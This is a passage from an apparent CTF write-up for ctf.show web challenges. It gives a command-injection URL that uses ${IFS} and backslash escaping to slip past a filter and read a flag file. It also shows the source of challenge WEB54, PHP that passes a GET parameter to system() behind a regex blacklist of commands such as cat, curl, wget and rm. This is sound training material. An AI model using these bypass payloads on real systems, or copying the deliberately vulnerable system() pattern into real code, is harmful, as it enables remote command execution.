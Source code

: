 ```php
http://9230984a-f7d7-4a49-8d1d-63f9f28fa8c4.challenge.ctf.show/?c=nl${IFS}fla\g.php
```

<figure><img src="../.gitbook/assets/image (28) (1).png" alt=""><figcaption></figcaption></figure>

***

## <mark style="color:blue;background-color:orange;">(26)WEB54</mark>

```php
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 19:43:42
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
} 
```
